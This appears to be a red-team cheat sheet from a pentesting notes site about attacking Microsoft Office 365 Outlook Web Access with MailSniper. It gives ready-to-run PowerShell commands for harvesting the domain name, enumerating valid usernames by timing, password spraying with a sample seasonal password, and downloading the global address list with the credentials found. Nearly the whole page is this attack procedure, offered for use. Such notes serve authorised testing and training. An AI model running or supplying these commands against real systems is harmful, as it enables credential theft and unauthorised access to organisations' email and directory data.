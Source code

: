 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Office_365
---
```



<span style="font-size: 35px; color:red"><b>Microsoft Office 365</b></span>
<span style="font-size: 25px;"><b>Password Spray</b></span>
- [MailSniper](https://github.com/dafthack/MailSniper)
- [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
&nbsp;

---
&nbsp;
<span style="font-size: 25px;"><b>MailSniper.ps1</b></span>
&nbsp;
```powershell
import-module ./MailSniper.ps1
```
Enumerate the NETBios Domain Name:
```powershell
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```
Starting from a list of "Name Surname" (names.txt), create a list of permutations with [namemash.py](https://gist.github.com/superkojiman/11076951):
```powershell
namemash.py <names.txt> > <possible.txt>
```
Validate usernames through a time-based enumeration:
```powershell
Invoke-UsernameHarvestOWA -ExchHostname <hostname_OWA_without_https://> -Domain <domain> -UserList <possible.txt> -OutFile <valid.txt>
```
Password Spray OWA:
```powershell
Invoke-PasswordSprayOWA -ExchHostname <hostname_OWA_without_https://> -UserList <valid.txt> -Password Summer2022
```
Download global address list using working credentials found before:
```powershell
Get-GlobalAddressList -ExchHostname <hostname_OWA_without_https://> -UserName <domain\username> -Password Summer2022 -OutFile <list.txt>
```
